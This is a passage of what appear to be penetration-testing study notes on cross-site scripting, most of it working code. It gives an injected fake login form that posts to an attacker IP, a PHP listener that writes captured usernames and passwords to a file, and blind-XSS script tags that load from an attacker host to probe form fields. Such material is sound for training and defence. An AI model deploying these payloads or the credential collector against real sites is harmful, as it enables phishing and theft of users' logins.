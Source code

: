 >```javascript
>document.getElementById('urlform').remove()
>```
>###### Create a payload to inject the malicious form AND remove the pre-existing HTML
>```javascript
>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.217><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
>```
>###### Setup a web server to handle any incoming form completions
>```powershell
>mkdir /tmp/tmpserver
>cd /tmp/tmpserver
>nano index.php # at this step we wrote our index.php file
>sudo php -S 0.0.0.0:80
>```
>Index.php:
>```php
>\<?php
>if (isset($_GET['username']) && isset($_GET['password'])) {
>    $file = fopen("creds.txt", "a+");
>    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
>    header("Location: http://SERVER_IP/phishing/index.php");
>    fclose($file);
>    exit();
>}
>?>
>```

>[!code]- Blind XSS
>###### Introduction
>When the XSS vulnerability is on a page we cannot access and therefore cannot see whether or how the XSS vulnerability exists.
>
>###### The problem
>For example, a sign up form may submit the form answers to an admin on an admin page. That admin page (which can only be viewed by an admin user) may have an XSS vulnerability within it. The attacker won't, however, know what value in the form has an XSS vulnerability, nor what type of payload works for that vulnerability (if it does indeed exist).
>
>###### The solution
>For each field we inject javascript into (in the hope its vulnerable to XSS), we can change the requested script name to the name of the field we are injecting in.
>```javascript
>\<script src="http://OUR_IP/username">\</script>`
>```
>If we get a request for `/username`, then we know that the `username` field is vulnerable to XSS, and so on. If we don't, then it could be because the **payload type is wrong**.
>
>Once each field has been tested for a given payload type, we can retry each field with a different payload type.
>
>```html
>
>\<script src=http://OUR_IP/fullname>\</script>
>
>
>\<script src=http://OUR_IP/username>\</script>
>
>...SNIP...
>
>